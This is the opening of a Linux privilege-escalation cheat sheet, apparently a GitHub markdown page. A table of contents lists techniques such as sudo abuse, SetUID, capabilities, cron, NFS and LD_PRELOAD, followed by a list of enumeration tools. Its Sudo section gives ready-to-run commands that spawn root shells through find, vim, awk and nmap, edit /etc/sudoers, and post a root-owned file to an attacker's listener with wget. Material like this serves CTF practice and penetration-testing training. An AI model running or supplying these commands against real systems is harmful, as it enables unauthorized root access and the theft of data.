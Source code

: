 # Privilege escalation cheatsheets

## Summary
* [Automation for privilege escalation](#automate-enumeration-for-privilege-escalation)
* [Exploiting Sudo](#sudo)
* [Exploiting kernel version](#kernel)
* [Exploiting nmap](#nmap)
* [Exploiting SetUID](#setuid)
	* [Base64 Setuid](#base64-setuid)
	* [Doas Setuid](#doas-setuid)
* [Exploiting capabilities](#capabilities)
	* [List capabilities](#list-capabilities)
	* [Vim capabilities](#vim-capabilites-for-cap_setuid)
	* [Ruby capabilities](#ruby-capabilities-for-cap_chown)
* [Exploiting cron jobs](#exploiting-cron-jobs)
* [Exploiting NFS](#exploiting-nfs)
* [Exploiting tar wildcard](#tar-wildcard)
* [Rewrite /etc/passwd](#rewrite-/etc/passwd)
* [SSH welcome interface](#/etc/update-motd.d-for-ssh-welcome-interface)
* [Modify PATH variable](#modify-path-variable)
* [Soft links files](#soft-link-files-for-privilege-escalation)
* [Exploiting LD_PRELOAD](#env_keepld_preload)
* [OpenSSL library loads](#openssl-capabilities-library-load)
* [Exploit Sudo services](#exploit-sudo-program)
* [Exploit NO_ROOT_SQUASH on NFS](#exploit-no_root_squash-on-nfs)
* [Exploit NFS with UID & GID](#exploit-nfs-with-uid--gid)
* [PYTHONPATH hijacking](#pythonpath-hijacking)

## Automate enumeration for privilege escalation
```
LinPeas
LinEnum
Les
LinuxSmartEnumeration
LinuxPrivChecker
```

## Sudo
```
sudo [filename] stdin exec:/bin/bash
sudo find /etc/passwd -exec /bin/sh \;
sudo vim -c '!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
sudo nano /etc/sudoers
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://[ip]:[port]    {set up a listener in local host}
```
